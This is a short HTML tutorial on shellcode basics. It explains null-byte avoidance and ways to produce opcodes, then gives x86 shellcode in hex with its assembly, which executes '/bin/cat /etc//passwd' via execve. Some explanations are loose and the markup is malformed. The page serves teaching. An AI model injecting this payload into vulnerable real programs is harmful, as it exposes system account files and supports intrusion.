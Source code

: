 <h1>Shellcode Basic</h1>
<hr>
<p>Shellcode is machine code that when executed spawns a shell Not all "Shellcode" spawns a shell.Shellcode is a list of machine code instructions which are developed in a manner that allows it to be injected in a vulnerable application during its runtime.Injecting Shellcode in an application is done by exploiting various security holes in an application like buffer overflows, which are the most popular ones.You cannot access any values through static addresses because these addresses will not be static in the program that is executing your Shellcode. But this is not applicable to environment variable.While creating a shell code always use the smallest part of a register to avoid null string.A Shellcode must not contain null string since null string is a delimiter.Anything after null string is ignored during execution.That’s a brief about
Shellcode</p>
<b>Methods for generating Shellcode<b/>
<li>1. Write the shellcode  directly in hex code.</li>
<li>2.Write the assembly instructions, and then extract the opcodes to generate the shellcode.</li>
<li>3. Write in C, extract assembly instructions and then  the opcodes and finally generate the shellcode.</li>

<b>Hex-Opcodes             Assembly instruction</b>
<ul>
"\x31\xc0"                                           xorl    %eax,%eax       
  "\x99"                                            cdq== movl eax edx  
  "\x52"                                              push edx                    
  "\x68\x2f\x63\x61\x74"                pushl 0x7461632f 
 "\x68\x2f\x62\x69\x6e"                pushl 0x6e69622f 
 "\x89\xe3"                                         mov ebx,esp   
 "\x52"                                             push edx      
"\x68\x73\x73\x77\x64"                  pushl 0x64777373  
"\x68\x2f\x2f\x70\x61"                pushl  0x61702f2f  
"\x68\x2f\x65\x74\x63"               pushl 0x6374652f 
"\x89\xe1"                                       mov ecx,esp  
"\xb0\x0b"                                     mov  $0xb,%al                              
"\x52"                                             push edx 
"\x51"                                              push ecx 
"\x53"                                             push ebx 
"\x89\xe1"                                      mov ecx,esp   
 "\xcd\x80" ;                                    int 80h    
    </ul>
